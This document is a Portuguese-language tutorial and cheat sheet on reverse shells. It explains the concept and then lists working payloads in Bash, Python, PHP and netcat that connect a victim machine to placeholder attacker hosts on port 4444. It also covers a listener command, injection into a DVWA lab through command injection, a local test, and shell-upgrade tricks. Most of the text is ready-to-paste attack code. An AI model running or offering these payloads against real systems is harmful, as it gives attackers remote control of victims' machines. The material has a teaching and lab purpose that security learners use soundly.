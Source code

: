 # Shell Reversa

🧠 O que é uma Shell Reversa?

Uma shell reversa é quando o alvo se conecta de volta ao atacante, fornecendo uma sessão de terminal.

📌 Isso normalmente é feito porque o alvo está atrás de um firewall ou NAT, então você faz ele sair e te entregar uma shell.

⸻

🧱 Estrutura típica
	•	Atacante: ouve na porta (listener)
	•	Vítima: executa um payload que se conecta ao atacante

[Atacante] ←—— (conexão TCP) —— [Vítima]
             bash -i >& /dev/tcp/attacker_ip/4444 0>&1


⸻

🎯 Ferramentas comuns
	•	Listener (na máquina do atacante):

nc -lvnp 4444


	•	Payloads reversos (na vítima):
Bash:

bash -i >& /dev/tcp/ATACANTE_IP/4444 0>&1

Python:

python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("ATACANTE_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh"])'

PHP:

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATACANTE_IP/4444 0>&1'"); ?>

Netcat (se a vítima tiver nc com opção -e):

nc ATACANTE_IP 4444 -e /bin/bash



⸻

💡 Em lab: usando DVWA ou outro alvo
	1.	No seu Kali/Linux (máquina atacante):

nc -lvnp 4444


	2.	No alvo (ex: DVWA, via Command Injection):
Injete:

bash -i >& /dev/tcp/SEU_IP/4444 0>&1



⸻

🧪 Teste seguro: em ambiente local

Você pode simular tudo com dois terminais:

Terminal 1 (listener):

nc -lvnp 4444

Terminal 2 (reverse shell local):

bash -i >& /dev/tcp/127.0.0.1/4444 0>&1


⸻

🔐 Dica: Upgrade de Shell

Se conseguir uma shell reversa crua e quiser torná-la mais usável:

# No shell reversa:
python -c 'import pty; pty.spawn("/bin/bash")'
# Depois:
CTRL+Z  # suspende a shell
stty raw -echo; fg  # volta e melhora a interação
export TERM=xterm